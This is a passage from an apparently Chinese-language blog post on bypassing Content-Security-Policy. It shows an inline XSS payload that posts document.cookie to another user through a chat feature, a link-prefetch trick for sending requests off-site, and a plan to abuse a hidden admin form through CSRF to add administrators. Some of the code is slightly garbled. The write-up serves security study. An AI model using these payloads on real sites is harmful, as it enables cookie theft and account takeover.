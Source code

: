 但是我们尝试构造内联脚本

![](/img/ccsp/ccsp/5.png)

能看到成功执行
![](/img/ccsp/ccsp/6.png)

值得庆幸的是由于同源策略，这个请求不能发往别的域下，但是实战环境中利用方式很多，就比如这个聊天版，可以通过发给别的用户的方式get cookie
```
<script>var xmlhttp=new XMLHttpRequest();
xmlhttp.open("POST","submit.php",true);
xmlhttp.setRequestHeader(_Ctent-type_,_applicati/x-www-form-urlencoded_);
xmlhttp.send(_to=lorexxar&&message=_+document.cookie);</script>;
```
所以，安全性仍然应该被更多仔细考虑...


## xxxx-src self

一般来说，self代表只接受符合同源策略的url，这样一来，大部分的xss和crsf都会失效，有个标签比较例外，虽然已经被加入的现在的csp草案中，但是的确还没有施行。

```
<link rel="prefetch" herf="xxxxxxx">
```
经过测试发现firefox在CSP规范的施行上还是走在前列，这种请求在firefox上会被拦截（除非同源），在公认安全性比较高的chrome确实存在


### 范例

当然首先我们先看看CSP的配置
```
Content-Security-Policy	
default-src 'none'; connect-src 'self'; frame-src 'self'; script-src http://xxxx/js 'sha256-T32nlLrKkuMnyNpkJKR7kozfPzdcJi
+Ql4gfcfl6PSM=';font-src http://xxxx/fonts/ fonts.gstatic.com; style-src 'self' 'unsafe-inline'
; img-src 'self'
```

几乎可以说是滴水不漏了

![](/img/ccsp/ccsp/7.png)

然后我们刷新看,请求已经发出去了

![](/img/ccsp/ccsp/8.png)

当然是对外域的请求，如果站内有某种漏洞，可以通过这个构造csrf。

测试环境下admin存在特殊的权限，可以添加管理员
```
<!--only for admin
	<form method="get" action="submit.php">
	<input type="text" class="form-control" name="addadmin">
	<input type="submit" value="send">
	</form>

-->
```

